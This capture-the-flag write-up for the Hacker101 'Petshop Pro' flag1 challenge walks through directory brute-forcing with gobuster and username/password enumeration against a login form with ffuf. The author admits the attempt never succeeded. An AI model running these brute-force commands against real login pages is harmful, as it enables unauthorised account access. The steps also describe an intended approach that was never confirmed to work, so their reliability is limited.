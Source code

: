 # Petshop Pro - flag1

## Solution steps
- Bruteforce the directories of `https://xxxxx.ctf.hacker101.com` using `gobuster`:
  `gobuster dir -u https://xxxxx.ctf.hacker101.com -w /path/to/wordlist.txt`
- I personally used [DirBuster-2007_directory-list-2.3-big.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt) for this task.
- I successfully discovered the administrative login page at `/login`.
- Navigate to `https://xxxxx.ctf.hacker101.com/login`.
- After attempting common SQL injection payloads I found out the application had protection against basic injections.
- Try bruteforcing the username and password using `ffuf`:
  `ffuf -u https://xxxxxxx.ctf.hacker101.com/login -w Desktop/username.txt -X POST -d "username=FUZZ&password=admin" -H "Content-Type: application/x-www-form-urlencoded" -mr "Invalid password"`
- The above command keeps the password static and brute-forces the `username` parameter until we see the response "Invalid password", which indicates the username is correct.
- After getting username, keep it static and bruteforce password using different wordlist:
  `ffuf -u https://xxxxxxx.ctf.hacker101.com/login -w Desktop/password.txt -X POST -d "username=demousername&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid password"`
- Login using the credentials and retrieve the flag.
---
> I tried several wordlists but didn’t find the username, so I couldn’t retrieve the flag; the steps above describe the intended approach.
